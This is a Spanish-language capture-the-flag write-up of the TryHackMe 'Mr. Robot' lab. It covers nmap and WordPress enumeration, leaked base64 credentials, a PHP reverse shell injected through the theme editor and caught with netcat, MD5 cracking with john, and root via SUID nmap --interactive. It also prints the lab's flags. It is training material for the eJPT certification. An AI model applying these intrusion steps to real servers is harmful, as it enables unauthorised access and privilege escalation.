

## Resumen

**Mr. Robot** es la decimoquinta y última máquina de la serie _Road to eJPTv2_, inspirada en la serie de televisión homónima. Una máquina con tres flags que encadena enumeración web profunda, explotación de WordPress mediante el editor de temas, crackeo de un hash MD5 para pivotar entre usuarios, y escalada de privilegios a través de un binario `nmap` con bit SUID en una versión antigua.

Una despedida digna para cerrar el path — técnicas reales de principio a fin.

| Atributo       | Valor                                                     |
| -------------- | --------------------------------------------------------- |
| **Plataforma** | TryHackMe                                                 |
| **Dificultad** | Media                                                     |
| **OS**         | Linux (Ubuntu)                                            |
| **Sala**       | [Mr. Robot](https://tryhackme.com/room/mrrobot)           |
| **Skills**     | WordPress Enum, Theme Editor RCE, MD5 Cracking, SUID nmap |

### Herramientas usadas

- `nmap` — escaneo de puertos y versiones
- `gobuster` — fuzzing de directorios web
- `whatweb` — fingerprinting web
- `wpscan` — enumeración de WordPress
- `john` — crackeo de hash MD5
- `netcat` — recepción de reverse shell
- `nmap --interactive` — escalada via SUID

### Resumen de la solución

1. **Reconocimiento:** nmap detecta SSH, HTTP y HTTPS. Es un sitio WordPress.
2. **robots.txt:** Revela la **primera flag** y un diccionario `fsocity.dic`.
3. **license.txt:** Contiene credenciales en base64: `elliot:ER28-0652`.
4. **WordPress:** Accedemos como `elliot` (admin) al dashboard.
5. **Reverse shell:** Inyectamos un PHP reverse shell en el template `404.php` del tema activo.
6. **Post-explotación:** Encontramos `password.raw-md5` con el hash de `robot`. John lo crackea: `abcdefghijklmnopqrstuvwxyz`.
7. **Segunda flag:** Accedemos como `robot` y leemos `key-2-of-3.txt`.
8. **Privesc:** `nmap` tiene bit SUID en versión antigua. `nmap --interactive` + `!sh` da shell de root.
9. **Tercera flag:** `/root/key-3-of-3.txt`.

---

## Reconocimiento

### Ping

Verificamos conectividad e identificamos el SO por el TTL:

```bash
ping -c 1 10.201.27.5
```

```
64 bytes from 10.201.27.5: icmp_seq=1 ttl=60 time=144 ms
```

TTL 60 → Linux (valor original 64, decrementado en los saltos de red).

### Nmap — Escaneo de puertos

```bash
nmap 10.201.27.5 -n -Pn -p- -sS --min-rate=5000 -oG allTCPports
```

```
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
```

### Nmap — Versiones y scripts

```bash
nmap 10.201.27.5 -n -Pn -p22,80,443 -sVC -sS --min-rate=5000 -oN mrRobotscan.txt
```

```
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu
80/tcp  open  http     Apache httpd
443/tcp open  ssl/http Apache httpd
```

Apache en 80 y 443 sin versión explícita — indica WordPress con configuración personalizada.

### robots.txt — Primera flag

Accedemos a `http://10.201.27.5/robots.txt`:

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

Dos hallazgos directos:

- `key-1-of-3.txt` → **primera flag**
- `fsocity.dic` → diccionario de palabras para futuros ataques

> **Key 1:** `073403c8a58a1f80d943455fb30724b9`

### Gobuster + WPScan

```bash
gobuster dir -u http://10.201.27.5 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php,txt,xml
```

Gobuster confirma la instalación de WordPress: `/wp-login.php`, `/wp-admin`, `/wp-content`.

```bash
wpscan --url http://10.201.27.5
```

WPScan identifica **WordPress 4.3.1** (versión insegura de 2015) y el tema `twentyfifteen`. XML-RPC habilitado.

### license.txt — Credenciales en Base64

Accedemos a `http://10.201.27.5/license.txt` y encontramos un string en base64:

```bash
echo -n "ZWxsaW90OkVSMjgtMDY1Mgo=" | base64 -d
elliot:ER28-0652
```

> **Credenciales WordPress:** `elliot:ER28-0652`

---

## Explotación

### Acceso WordPress — Dashboard de Elliot

Con las credenciales obtenidas accedemos al panel de administración:
`http://10.201.27.5/wp-admin/`


Acceso como administrador confirmado — usuario `Elliot Alderson`.

### Reverse Shell via Theme Editor

WordPress permite editar los archivos PHP del tema activo desde el panel de administración. Navegamos al editor del tema `Twenty Fifteen` y reemplazamos el contenido de `404.php` con un PHP reverse shell (PentestMonkey):

`Appearance → Theme Editor → 404.php`



Ponemos netcat en escucha y activamos el shell accediendo a una página inexistente:

```bash
nc -nlvp 4545
```

```
http://10.201.27.5/?p=404
```

```
connect to [10.13.93.83] from (UNKNOWN) [10.201.27.5] 60214
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

### Estabilización de la shell

```bash
script /dev/null -c bash
# Ctrl+Z
stty raw -echo; fg
daemon@ip-10-201-27-5:/$ export TERM=xterm
daemon@ip-10-201-27-5:/$ export SHELL=bash
daemon@ip-10-201-27-5:/$ stty rows 41 cols 183
```

---

## Post-Explotación

### Hash MD5 de robot

En el directorio home de `robot` encontramos dos archivos:

```bash
daemon@ip-10-201-27-5:/home/robot$ ls
key-2-of-3.txt    password.raw-md5
daemon@ip-10-201-27-5:/home/robot$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

No tenemos permisos para leer `key-2-of-3.txt` como `daemon` — necesitamos ser `robot`.

### John the Ripper — Crackeo del MD5

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 robot.hash
```

```
abcdefghijklmnopqrstuvwxyz (robot)
1g 0:00:00:00 DONE
```

> **Contraseña de robot:** `abcdefghijklmnopqrstuvwxyz`

### Pivote a robot — Segunda flag

```bash
daemon@ip-10-201-27-5:/home/robot$ su robot
Password: abcdefghijklmnopqrstuvwxyz
robot@ip-10-201-27-5:~$ cat key-2-of-3.txt
```

> **Key 2:** _(ver en la sala)_

---

## Escalada de privilegios

### sudo -l

```bash
robot@ip-10-201-27-5:~$ sudo -l
Sorry, user robot may not run sudo on ip-10-201-27-5.
```

Sin acceso sudo. Buscamos binarios con bit SUID:

### SUID — nmap antiguo

```bash
robot@ip-10-201-27-5:~$ find / -perm -4000 2>/dev/null
...
/usr/local/bin/nmap
...
```

`nmap` tiene bit SUID. Versiones antiguas de nmap (anteriores a 5.x) incluyen un modo `--interactive` que permite ejecutar comandos del sistema como el usuario propietario del binario — en este caso, root.

```bash
robot@ip-10-201-27-5:~$ nmap --interactive
nmap> !sh
root@ip-10-201-27-5:~# whoami
root
```

### Tercera flag

```bash
root@ip-10-201-27-5:/root# cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

> **Key 3:** `04787ddef27c3dee1ee161b21670b4e4`

---

## Lecciones aprendidas

- **robots.txt puede contener flags y wordlists** — El archivo pensado para excluir bots de buscadores reveló la primera flag y un diccionario personalizado. Siempre es el primer archivo que revisar en cualquier sitio web.
- **Los archivos de texto "informativos" pueden contener credenciales** — `license.txt` con un base64 codificado es una forma descuidada de dejar credenciales expuestas. Buscar archivos `.txt`, `.bak`, `readme` y similares.
- **WordPress admin = RCE** — El editor de temas de WordPress permite modificar archivos PHP directamente desde el navegador. Acceso admin a WordPress equivale a ejecución de código en el servidor.
- **Los hashes MD5 en texto plano son trivialmente crackeables** — `c3fcd3d76192e4007dfb496cca67e13b` se resolvió en segundos. MD5 no es una función de hash segura para contraseñas.
- **SUID en binarios interactivos es privesc inmediata** — Cualquier binario con SUID que permita ejecutar comandos del sistema (nmap, vim, python, perl, etc.) es escalada garantizada. Siempre revisar GTFOBins.

### Para la eJPT

| Concepto                       | Relevancia eJPT                                   |
| ------------------------------ | ------------------------------------------------- |
| Enumeración WordPress (wpscan) | Técnica web estándar en el syllabus               |
| RCE via Theme Editor           | Explotación de aplicación web sin CVE             |
| Crackeo de hash MD5            | Movimiento lateral entre usuarios                 |
| SUID + GTFOBins (nmap)         | Privesc sin exploit de kernel — patrón del examen |

**Tiempo aproximado de resolución:** 60-90 minutos.

---

## Referencias

- [Mr. Robot — TryHackMe](https://tryhackme.com/room/mrrobot)
- [GTFOBins — nmap](https://gtfobins.github.io/gtfobins/nmap/)
- [WPScan](https://github.com/wpscanteam/wpscan)
- [PentestMonkey PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell)
